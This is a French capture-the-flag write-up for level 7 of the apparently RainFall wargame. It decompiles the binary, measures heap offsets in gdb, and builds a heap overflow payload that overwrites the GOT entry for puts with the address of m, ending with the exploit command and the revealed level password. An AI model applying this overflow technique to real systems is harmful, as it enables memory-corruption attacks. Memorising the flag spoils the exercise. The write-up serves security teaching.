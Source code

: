 # **Level 7**

Pour le `level7` on decompile l'executable

```
void m(void *param_1,int param_2,char *param_3,int param_4,int param_5)
{
  time_t tVar1;
  
  tVar1 = time((time_t *)0x0);
  printf("%s - %d\n",c,tVar1);
  return;
}

undefined4 main(undefined4 param_1,int param_2)
{
  undefined4 *puVar1;
  void *pvVar2;
  undefined4 *puVar3;
  FILE *__stream;
  
  puVar1 = (undefined4 *)malloc(8);
  *puVar1 = 1;
  pvVar2 = malloc(8);
  puVar1[1] = pvVar2;
  puVar3 = (undefined4 *)malloc(8);
  *puVar3 = 2;
  pvVar2 = malloc(8);
  puVar3[1] = pvVar2;
  strcpy((char *)puVar1[1],*(char **)(param_2 + 4));
  strcpy((char *)puVar3[1],*(char **)(param_2 + 8));
  __stream = fopen("/home/user/level8/.pass","r");
  fgets(c,0x44,__stream);
  puts("~~");
  return 0;
}
```

Le but de ce niveau est de remplacer l'appel de `puts` par un appel a `m` via la `Global Offset Table (GOT)`
Pour ce faire, on va overflow avec le premier `strcpy` pour remplacer l'addresse donner par le dernier malloc par l'addresse de `puts` dans lequel on va mettre l'addresse de `m`

Donc la premiere etape est de savoir ou ecrire pour reecrire l'addresse vers laquelle pointe `puVar3[1]`
pour cela on analyse le code et on conclue que l'addresse qu'on veux ecraser c'est l'addresse de `puVar3` + 4 donc on fait la difference `puVar3 - puVar1[1] + 4`

```
(gdb) b *0x08048550
Breakpoint 1 at 0x8048550
(gdb) b *0x08048565
Breakpoint 2 at 0x8048565
(gdb) run aaaaaaaaaaa
Starting program: /home/user/level7/level7 aaaaaaaaaaa

Breakpoint 1, 0x08048550 in main ()
(gdb) x $eax
0x804a018:      0x00000000
(gdb) n
Single stepping until exit from function main,
which has no line number information.

Breakpoint 2, 0x08048565 in main ()
(gdb) x $eax
0x804a028:      0x00000000
(gdb)
```
> (0x804a028 - 0x804a018) + 4 = 20

Maintenant on a plus qu'a trouver nos addresses

Tout d'abord l'addresse de `puts`

```
(gdb) disas puts
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:     jmp    *0x8049928 <===
   0x08048406 <+6>:     push   $0x28
   0x0804840b <+11>:    jmp    0x80483a0
End of assembler dump.
```

Puis l'addresse de `m`

```
(gdb) disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:     push   %ebp
   0x080484f5 <+1>:     mov    %esp,%ebp
   0x080484f7 <+3>:     sub    $0x18,%esp
   0x080484fa <+6>:     movl   $0x0,(%esp)
   0x08048501 <+13>:    call   0x80483d0 <time@plt>
   0x08048506 <+18>:    mov    $0x80486e0,%edx
   0x0804850b <+23>:    mov    %eax,0x8(%esp)
   0x0804850f <+27>:    movl   $0x8049960,0x4(%esp)
   0x08048517 <+35>:    mov    %edx,(%esp)
   0x0804851a <+38>:    call   0x80483b0 <printf@plt>
   0x0804851f <+43>:    leave
   0x08048520 <+44>:    ret
End of assembler dump.
```

Maintenant on a tout, on peux construire notre payload

```
level7@RainFall:~$ ./level7 $(python -c 'print"a"*20+"\x28\x99\x04\x08"') $(python -c 'print"\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1707655140
```

> ### NEXT : [Level 8](/level8/resources/README.md)
